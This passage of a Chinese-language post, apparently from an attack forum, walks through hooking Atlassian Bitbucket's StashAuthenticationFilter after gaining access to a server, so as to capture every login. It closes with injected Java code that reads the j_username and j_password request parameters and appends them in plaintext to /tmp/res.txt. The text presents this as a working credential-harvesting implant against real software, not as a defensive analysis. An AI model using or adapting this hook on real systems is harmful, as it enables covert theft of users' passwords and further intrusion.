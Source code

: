 经过多次测试，笔者发现只要请求带着j\_username,那么请求就不会进入我们流程。也就是说j\_username的处理逻辑在javax.servlet.http.HttpServlet.service之前或根本没有调用javax.servlet.http.HttpServlet.service。

尝试解决这个问题，笔者首先假设是生命周期的问题，尝试对dofiler进行hook，发现在该接口也无法记录到用户名密码。

在项目所有的依赖中，我们暴力grep j\_username字段，发现有一个类包含这个字段。

![](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-d853bf7964902a82d940c4c79709345f6ef68709.png)

其中doFilter很显眼，发现继承于GenericFilterBean，最终来自javax.servlet.Filter。我们尝试hook：

![](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-6ca94530d0a3b0dc7af52379c4459afd519186df.png)

提示没有请求体，这应该是个接口/抽象方法，我们只能hook具体实现doFilter的地方。 尝试hook com.atlassian.stash.internal.spring.security.StashAuthenticationFilter的doFilter方法，一堆报错，不知道为什么:

![](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-bd82f6953635a6eebc91103a4303e481ab88be1d.png)

这时候笔者觉得j\_username的认证可能是中间件完成的，我们只有应用的权限可能无法获取到。那么只有转变思路，寻找程序中类似login(username,password)的函数。

![](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-658ecc59f5d6d56ec1ad415c190bae3089b321ec.png)

这个函数看起来很对，接受了账户和密码。实际我们需要从javax.servlet.ServletRequest获取。我们尝试hook createContextFromQueryParameters方法，成功记录：

![](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-3942e4b7f263ef513394b9177cf65aea10962cac.png)

这样还是比较明确的，实际上bitbucket这个项目认证模块没有使用javax.servlet.http.HttpServlet.service而是使用了javax.servlet.ServletRequest。javax.servlet.ServletRequest没有类似service这样可以拿到所有请求的函数，所以无法完成全局的hook。具体项目需要具体分析。

几处改动
----

1. 修改被hook的类及方法：
    
    private String\[\]\[\] methods = new String\[\]\[\] {  
    new String\[\] {"com/atlassian/stash/internal/spring/security/StashAuthenticationFilter", "com.atlassian.stash.internal.spring.security.StashAuthenticationFilter", "createContextFromQueryParameters", "\*"},  
    };
2. 修改执行的代码

.append("try {").append("\\n")  
.append("javax.servlet.http.HttpServletRequest request = $1;").append("\\n")  
.append("String password=request.getParameter(\\"j\_password\\");").append("\\n")  
.append("if(password!=null){").append("\\n")  
.append("String username=request.getParameter(\\"j\_username\\");").append("\\n")  
.append("String r=username+\\":\\"+password;").append("\\n")  
.append("byte\[\] res = r.getBytes();").append("\\n")  
.append("java.io.File newTextFile = new java.io.File(\\"/tmp/res.txt\\");").append("\\n")  
.append("java.io.FileOutputStream fw = new java.io.FileOutputStream(newTextFile,true);").append("\\n")  
.append("fw.write(res);").append("\\n")  
.append("fw.close();").append("\\n")  
.append("}").append("\\n")  
.append(" } catch (Throwable throwable) {").append("\\n")  
.append(" throwable.printStackTrace();").append("\\n")  
.append(" }").append("\\n")  
;
